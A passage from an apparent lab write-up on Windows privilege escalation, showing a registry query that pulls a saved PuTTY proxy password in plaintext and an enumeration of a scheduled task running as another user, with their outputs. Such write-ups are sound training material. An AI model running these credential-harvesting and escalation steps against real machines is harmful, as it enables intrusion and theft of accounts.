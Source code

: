 ### Retrieve Credentials from PuTTY
1. Started up this task's machine
2. `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s` from the compromised Windows machine to retrieve the stored proxy credentials that are saved in the current PuTTY session under our current user's profile, which revealed to us the password for the thom.smith user
```PowerShell
C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.
```

## Other Quick Wins

1. Started this task's machine
2. `schtasks /query /tn <TASK NAME> /fo list /v` from the compromised Windows machine to query our target task's information and verbosely output the received data in a list format
```PowerShell
C:\Users\thm-unpriv>schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/21/2023 10:25:35 PM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```
